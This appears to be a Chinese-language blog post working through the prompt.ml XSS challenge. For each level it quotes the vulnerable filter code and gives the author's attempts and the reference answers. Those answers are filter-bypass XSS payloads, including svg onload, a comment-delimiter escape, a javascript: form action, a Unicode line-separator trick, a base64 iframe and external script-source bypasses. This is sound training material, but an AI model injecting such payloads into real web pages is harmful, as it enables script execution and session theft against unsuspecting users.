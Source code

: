 ```yaml
---
layout: post
title: "prompt.ml 练习"
date: 2017-08-29
categories: Note
---
```


### level0

  function escape(input) {
      // warm up
      // script should be executed without user interaction
      return '<input type="text" value="' + input + '">';
  }  

这是一个很典型的利用 HTML 属性的题目。-。- 但是逗比如我的，跑上来直接来了个 `" onload="prompt(1)`。
囧。。。。后面我查了下资料发觉 input 没有 onload 事件。。。。。。。于是另想它法：`"><img src='xx.png'  onerror="prompt(1)`，然后又看了下参考答案`"><svg/onload=prompt(1)>`，参考答案里还提到一个适用于 IE10（及之前的）
的解决方案，IE10 在加载页面后几乎对所元素都会触发 resize 事件。所以还能这么玩 `"onresize=prompt(1)>`

### level1

  function escape(input) {
      // tags stripping mechanism from ExtJS library
      // Ext.util.Format.stripTags
      var stripTagsRE = /<\/?[^>]+>/gi;
      input = input.replace(stripTagsRE, '');

      return '<article>' + input + '</article>';
  }    

这题对 <\/?[^>]+> 这些符号做了过滤，然后我尝试着写了 `"><img src='xx.png'  onerror="prompt(1)` ，然后 0.0 居然就过了。参考答案是 `<svg/onload=prompt(1) `

### level2

  function escape(input) {
      //                      v-- frowny face
      input = input.replace(/[=(]/g, '');

      // ok seriously, disallows equal signs and open parenthesis
      return input;
  }   

这题居然把 等号 和 左边的括号也过滤了。。。。。几经尝试后，我表示无解看了参考答案： `<svg><script>prompt&#40;1)</script>` 啊哈，我终于明白为什么这么喜欢用 SVG 了。这题利用了 SVG 的 XML-ish 特性。SVG 中的实体都会被解析出来。

### level3

  function escape(input) {
      // filter potential comment end delimiters
      input = input.replace(/->/g, '_');

      // comment the input to avoid script execution
      return '<!-- ' + input + ' -->';
  }  

= = HTML5 中 `--!>` 也能表示注释结束。 参考答案：`--!><svg/onload=prompt(1)`

### level4

  function escape(input) {
      // make sure the script belongs to own site
      // sample script: http://prompt.ml/js/test.js
      if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
          var script = document.createElement('script');
          script.src = input;
          return script.outerHTML;
      } else {
          return 'Invalid resource.';
      }
  }   

参考答案：`//prompt.ml%2f@ᄒ.ws/✌` 我这边无法验证。

### level5

  function escape(input) {
      // apply strict filter rules of level 0
      // filter ">" and event handlers
      input = input.replace(/>|on.+?=|focus/gi, '_');

      return '<input value="' + input + '" type="text">';
  }

这题算是第一题的威力加强版，把 '>' 和 onEvent= 都给过滤了。第一想法是利用换行来规避 onEvent= 的过滤，然后就没有然后了。。。。看了参考答案：

  `"type=image src onerror
    ="prompt(1)`

可以覆盖 type 把它变成一个 img 类型，然后 src 报错即可。

### level6

  function escape(input) {
      // let's do a post redirection
      try {
          // pass in formURL#formDataJSON
          // e.g. http://httpbin.org/post#{"name":"Matt"}
          var segments = input.split('#');
          var formURL = segments[0];
          var formData = JSON.parse(segments[1]);

          var form = document.createElement('form');
          form.action = formURL;
          form.method = 'post';

          for (var i in formData) {
              var input = form.appendChild(document.createElement('input'));
              input.name = i;
              input.setAttribute('value', formData[i]);
          }

          return form.outerHTML + '                         \n\
  <script>                                                  \n\
      // forbid javascript: or vbscript: and data: stuff    \n\
      if (!/script:|data:/i.test(document.forms[0].action)) \n\
          document.forms[0].submit();                       \n\
      else                                                  \n\
          document.write("Action forbidden.")               \n\
  </script>                                                 \n\
          ';
      } catch (e) {
          return 'Invalid form data.';
      }
  }        

参考答案：`javascript:prompt(1)#{"action":1}`  原来 form 里的 action 也能执行 JavaScript 代码。

### level7

  function escape(input) {
      // pass in something like dog#cat#bird#mouse...
      var segments = input.split('#');
      return segments.map(function(title) {
          // title can only contain 12 characters
          return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
      }).join('\n');
  }   

参考答案是：

  "><svg/a=#"onload='/*#*/prompt(1)'
 
  
在第一段闭合了 p 标签并创立自己的新标签及属性，在第二段注释掉多余内容并监听load事件，在最后一段prompt(1)。

### level8

  function escape(input) {
      // prevent input from getting out of comment
      // strip off line-breaks and stuff
      input = input.replace(/[\r\n</"]/g, '');

      return '                                \n\
  <script>                                    \n\
      // console.log("' + input + '");        \n\
  </script> ';
  }    

通过特殊符号来实现的，参考答案：`[U+2028]prompt(1)[U+2028]-->`  -。- 我无法验证通过。
http://tools.jb51.net/table/javascript_escape

### level9

  function escape(input) {
      // filter potential start-tags
      input = input.replace(/<([a-zA-Z])/g, '<_$1');
      // use all-caps for heading
      input = input.toUpperCase();

      // sample input: you shall not pass! => YOU SHALL NOT PASS!
      return '<h1>' + input + '</h1>';
  }  

参考答案：`<ſcript/ſrc=//⒕₨></ſcript>`  = =  我还是没法验证。

### level10

  function escape(input) {
      // (╯°□°）╯︵ ┻━┻
      input = encodeURIComponent(input).replace(/prompt/g, 'alert');
      // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
      input = input.replace(/'/g, '');

      // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
      return '<script>' + input + '</script> ';
  }  

= = 这道题好萌啊。。。。。 `p'rompt(1)`

### level11

  function escape(input) {
      // name should not contain special characters
      var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

      // data to be parsed as JSON
      var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

      // directly "parse" data in script context
      return '                                \n\
  <script>                                    \n\
      var data = ' + dataString + ';          \n\
      if (data.action === "login")            \n\
          document.write(data.message)        \n\
  </script> ';
  }        

`"(prompt(1))in"`

### level12

  function escape(input) {
      // in Soviet Russia...
      input = encodeURIComponent(input).replace(/'/g, '');
      // table flips you!
      input = input.replace(/prompt/g, 'alert');

      // ノ┬─┬ノ ︵ ( \o°o)\
      return '<script>' + input + '</script> ';
  }  

使用 base30 encode 。`eval(630038579..toString(30))(1)`

### level13

### levev14

利用 base64 火狐识别大写 BASE64 

  `"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=`

### level15

level 7 的升级版

 `"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>`

